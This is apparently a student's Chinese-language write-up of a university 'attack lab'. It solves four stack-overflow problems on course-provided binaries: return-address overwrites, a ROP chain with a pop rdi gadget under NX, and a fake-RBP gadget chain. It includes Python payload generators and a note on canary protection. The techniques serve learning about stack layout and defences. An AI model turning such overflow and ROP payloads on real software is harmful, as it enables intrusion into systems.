








# 栈溢出攻击实验
胡晓锋 2024201534
## 题目解决思路
### Problem 1: 
- **分析**：重要的函数就是func 与 func1;发现func里面调用了strcpy函数，然后也没有加cannary所以就可以通过修改栈上的数据来覆盖掉返回地址，使得调用完func之后程序跳转到func1的入口处，进而实现对func1的调用。细节的话，看到func1的地址在0x401216,同时注意小端序；而又看到func的汇编中会开32字节的空间，所以就可以使用16个0x41来覆盖掉这32字节的栈空间，然后将func1的地址按照小端序覆盖掉返回地址就行
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
# Write the payload to a file
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```

- **结果**：


### Problem 2:
- **分析**：
正规方法：本题要攻击的函数时memcpy,这个函数跟strcpy不同的一点是，memcpy会限制复制的字符串长度。查看汇编代码发现长度为0x38（56）硬编码，而且memcpy使用rbp-8的位置开始写的，需要8字节覆盖局部变量，再8字节覆盖掉rbp,然后就到了返回地址的部分了，因为保护类型是Nxenabled，所以要借助已有的函数，看到汇编中有pop_rdi,而func2里面会检查rdi是否为0x3f8,所以联想到可以在pop_rdi函数执行时把0x3f8放到rdi中,然后再正常执行func2,，也就是说，在前面提到的16个字节的填写基础上，再用8个字节覆盖掉返回地址，使得func执行完后会跳转到pop_rdi,然后再8个字节写0x3f8,再八个字节写func2的返回地址，这样就实现了Nxenabled下的栈溢出攻击。

歪门邪道：前十六个字节的填写方式同正规方法，但是接下来的func的返回地址我们直接填写func2中检查通过后的位置，就不必借用pop_rdi来修改值了。
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```python
# padding: 8字节buffer + 8字节old_rbp
padding = b'A' * 16

# 正规方法:
pop_rdi_ret = b"\xc7\x12\x40\x00\x00\x00\x00\x00" # 只取 pop rdi; ret 的片段
arg_value   = b"\xf8\x03\x00\x00\x00\x00\x00\x00"    # 1016
func2_addr  = b"\x16\x12\x40\x00\x00\x00\x00\x00" # func2 正常入口

payload = padding + pop_rdi_ret + arg_value + func2_addr

# 歪门邪道:
# func2_success_block = b"\x4c\x12\x40\x00\x00\x00\x00\x00"
# payload = padding + func2_success_block

# 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)
```
- **结果**：

### Problem 3: 
说明：

problem3无法运行，所以使用chmod +x problem3修改了其权限

- **分析**：
仍然是通过ida寻找的思路，发现该题和前面一样需要txt文件，使用./problem3 ans3.txt才能进入正确的逻辑，之后程序会进入func，func最重要的部分就是memcpy,但是写入的长度只有64字节，而参数字符串就已经占了32字节，然后还要覆盖掉old rbp，又用掉8字节，之后只剩下24字节。想要输出`Your lucky number is 114`必须调用func1,且通过x==114的判断，也尝试了直接跳转到判断正确的逻辑，但是发现不行，因为栈地址被随机化了。
所以又看到给了很多的函数gadget，仔细观察，发现了这样一段指令(来自00000000004012da <mov_rdi>:)
```asm
  4012e2:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012e6:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  4012ea:	48 89 c7             	mov    %rax,%rdi
  4012ed:	c3                   	ret
```
发现这个能给%rdi赋值，就考虑利用它，但是首先要解决的就是rbp的问题。不能随便覆盖掉old rbp，覆盖的值必须满足rbp-8 指向的是114，所以就要使用3_1.py来搜索内存中的`72 00 00 00`很幸运的是，搜索到了，其地址为`0x4025d8`,然后将其加8，就得到了伪造的rbp,把它追加到32个A的后面，然后把gadget的地址追加到后面，这样rdi就被变成了114，之后正常调用func1即可。
- **解决方案**：
共有两个payload,第一个是找到内存中的114的，第二个是生成ans3.txt的
```python
# 3_1.py 寻找内存中的114
import struct

# 读取文件二进制
with open("problem3", "rb") as f:
    data = f.read()

# 我们要找的目标：小端序的 114 (72 00 00 00)
target = struct.pack('<I', 114) 

# 搜索
offset = data.find(target)

if offset != -1:
    print(f"恭喜！找到了 114！")
    print(f"尝试使用的内存地址 (VA): {hex(0x400000 + offset)}") 
    print("请先去 IDA 或 objdump 确认这个地址确实是 72 00 00 00")
else:
    print("坏消息：二进制文件里真的没有 32 位的 114 (72 00 00 00)...")
```

```python
# 3.py
import struct

# 模拟 p64 函数：把数字转换成 64位 小端序 字节流
def p64(value):
    return struct.pack('<Q', value)

# ========== 配置区 ==========

# 1. 这里填你在 objdump 里找到的地址
# 必须指向内存里的 0x72 (最好是 72 00 00 00)
addr_of_114 = 0x4025d8  # <--- 请务必修改这里！

# 2. 你的 gadget 地址
gadget_addr = 0x4012e6  # ag1: mov -8(rbp), rax; mov rax, rdi; ret

# 3. 目标函数地址
func1_addr = 0x401216

# ===========================

# 1. 计算伪造的 RBP
# 因为 gadget 是 mov -8(rbp), rax
# 所以我们让 rbp 指向 (114的地址 + 8)
# 这样 (rbp - 8) 就刚好等于 114的地址
fake_rbp = addr_of_114 + 8

# 2. 组装 Payload
# Padding (32 bytes)
buffer = b'A' * 32

# Payload 结构：
# [ Padding 32B ] + [ Fake RBP 8B ] + [ Gadget 8B ] + [ Func1 8B ]
# 总长度 56 字节 (刚好在 memcpy 64字节限制内)
payload = buffer + p64(fake_rbp) + p64(gadget_addr) + p64(func1_addr)

# 3. 写入文件
with open("ans3.txt", "wb") as f:
    f.write(payload)

print(f"Payload generated! Fake RBP set to: {hex(fake_rbp)}")
print("Run: ./problem3 ans3.txt")
```
- **结果**：



### Problem 4: 
- **分析**：体现canary的保护机制是什么 

    - 解题思路：使用ida查看main函数，发现使用了凯撒密码来加密前两个问题的答案，然后就是提示要输入一个数字。这个数字被传入func中，如果这个数字比-1还小，那是不会通过的；只有这个数字大于等于-1的时候才会进入if语句中，进行第二步检查。第二步检查是检查输入的数字是不是-1，如果不是，是无法调用func1，然后查看func1,里面就是结束语。综上，输入-1即可
    - canary的保护机制：
    
    
    

    这些图中的__readfsqword(0x28u)就是指向的金丝雀保护机制，可以看到，在main函数中将金丝雀的值定下来，然后在func、func1执行完毕后都会对其进行检查，检查是直接做差，并将差的值作为程序返回值，如果不为零，就会触发保护机制。
- **解决方案**&**结果**：


## 思考与总结
attacklab 小小的，但是非常好玩，这次lab除了让我对栈的布局有了更深刻的了解之外，还对常见的栈防御攻击的方式有了更深入的了解，早知道这么好玩就期末之前做了，做完这个期末的栈画图那道题目就很简单了。
另外，ida太好用了，借助这个工具我省去了大把的要花费在汇编代码审计上的时间，得以6个小时速通lab
## 参考资料
无